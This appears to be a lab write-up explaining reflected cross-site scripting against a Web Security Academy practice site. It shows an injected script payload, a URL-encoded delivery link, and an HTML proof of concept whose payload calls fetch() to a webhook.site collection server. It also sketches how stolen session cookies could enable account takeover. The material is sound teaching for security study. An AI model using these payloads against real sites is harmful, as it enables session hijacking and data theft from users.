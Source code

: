 <h1>What The Heck Is Cross Site Scripting???</h1>
Cross Site Scripting (XSS) is a web attack that runs arbitrary javascript in the context of the user's browsing session. So all cookies that are targeted with the XSS attack will be the cookie's in the victim's browser. Attackers using XSS against a victim essentially take momentary "control" of the victim's browser. Attackers can potentially use XSS to make a victim travel to a malicious domain, or change their email address, or send their sensitive cookies (or other data) to a malicious web server for collection.

<h2>Our First XSS Example</h2>

Analyze the images below.

![image](https://github.com/user-attachments/assets/467b33ba-e895-4b52-b549-6cedef4b8cbf)
![image](https://github.com/user-attachments/assets/2062483b-d93a-46f0-a6a5-528937e6ce0f)

In the above images, XSS was found in the search bar of a blog. I inject a <script>prompt("Is This XSS???")</script> into the search bar of the blog. Afterwords, a prompt alert is displayed on the screen, and the XSS payload is reflected in the **search** parameter in the URL. This
is known as Reflected XSS. Let's look at the page source to see where the XSS is taking place.

![image](https://github.com/user-attachments/assets/69d9267d-577b-416b-a73e-0a8dd243e3af)

If you look at the above small cut-out of the page source of the blog web page, our malicious <script></script> get's injected into an header tag. This is called **Reflected XSS into HTML Context**. Our XSS payload is injected into the part of the HTML that reflects the user's search query back to them on the page.

<h2>How Would An Attacker Send The Payload To The Victim?</h2>

1. The attacker could send this link with the URL encoded payload to the victim (https://0a14002e046c635e83201e50006d006a.web-security-academy.net/?search=%3Cscript%3Eprompt%28%22Is+This+XSS%3F%3F%3F%22%29%3C%2Fscript%3E) and if the victim visits the link the javascript will execute in the context of the victim's browser. This specific xss payload will make "Is This XSS" alert to the victim's screen.

2. The attacker could also host the following malicious HTML on their domain, and when the victim visits the attacker's webpage and clicks the link, the victim's browser will travel to the location in the link and execute the javascript. This specific javascript alerts "This is XSS" to the victim's screen and then makes the victim send a GET request to the attacker's malicious server with a parameter+value of "msg=xss-confirmed".

```
<!DOCTYPE html>
<html>
<body>   
<script>
window.location.href = "https://0a14002e046c635e83201e50006d006a.web-security-academy.net/?search=%3Cscript%3Ealert%28%22This%20is%20XSS%22%29%3Bfetch%28%22https%3A%2F%2Fwebhook%2Esite%2Ff4a05f1e%2D0bcd%2D4083%2D9769%2D25f5bce3d45e%3Fmsg%3Dxss%2Dconfirmed%22%29%3C%2Fscript%3E";
</script>
</body>
</html>
```

For context, this is what the victim user would see on their screen after traveling to the attacker's malicious domain where the above html proof of concept is hosted:

**Victim's View**

![image](https://github.com/user-attachments/assets/acfb67a0-262a-4f65-baa8-b557489aeace)

And this is what the attacker would see on their malicious server after the XSS payload is executed in the victim's browser:

**Attacker's View**

![image](https://github.com/user-attachments/assets/3ede17fb-ac14-4931-a19e-756d0c06e4f1)

Obviously, no sensitive data was sent over with this XSS payload. However, if other misconfigurations were present on the target website, an attacker could have made the victim user send their session cookie to the attacker's server. The attacker could then use the victim's session cookies to conduct a Session Hijacking on the victim user's account, which essentially means the attacker would be able to be logged in as the victim user.


